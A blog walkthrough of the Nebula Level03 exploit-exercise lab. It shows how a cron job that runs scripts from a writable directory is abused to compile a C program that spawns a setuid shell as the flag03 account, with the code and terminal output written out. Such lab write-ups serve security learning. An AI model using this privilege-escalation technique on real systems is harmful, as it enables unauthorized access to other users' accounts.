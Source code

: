 ```yaml
---
title: "Exploit Exercises - Nebula Level03"
date: "2015-08-18"
slug: "exploit-exercises-nebula-level03"
Categories:
- Exploit Exercises
---
```


The details page for [Level03] contains a hint directing us to the home directory of flag03. After navigating to the target home directory and listing out the files, I was presented with a shell script called writable.sh and a directory called writable.d.

<!--more-->

I took a look at the shell script and it contained the following:

	#!/bin/sh

	for i in /home/flag03/writable.d/* ; do
        	(ulimit -t 5; bash -x "$i")
        	rm -f "$i"
	done

This code will execute anything placed in the writable.d directory when it is called.  The details section also mentioned a crontab that is called every couple of minutes.

This challenge was a little tougher because I wanted to gain shell access and not just cat out a log file that contained the getflag output. After trying to approach the problem the same way as Level00, I came up short because bash will ignore the SUID bit.

I went with a different approach and after grabbing the uid/gid from /etc/passwd I created some code to spawn a shell. 


	#include <stdio.h>

	int main()
	{
    	setresuid(996, 996, 996);
    	setresgid(996, 996, 996);
    	system( "/bin/bash" );
    	return 0;
	}

 Then, I placed a bash script in writable.d that will compile my code.

	#!/bin/bash

	gcc /tmp/foo.c -o /home/flag03/level03
	chmod +xs /home/flag03/level03

I waited for cron to run, then moved to /home/flag03 and executed my newly compiled level03 program.

	level04@nebula:/home/flag03$ id
	uid=1004(level03) gid=1004(level03) groups=1004(level03)
	level03@nebula:/home/flag03$ ./level03
	flag03@nebula:/home/flag03$ id
	uid=996(flag03) gid=996(flag03) groups=996(flag03),1004(level03)
	flag03@nebula:/home/flag03$ getflag
	You have successfully executed getflag on a target account

Success! After running the program I was presented with a shell and able to run getflag on a target account.


Thanks for reading!

[Mike][]

[Level03]: https://exploit-exercises.com/nebula/level03/ "Level03"
[Mike]: /contact "Contact Mike"
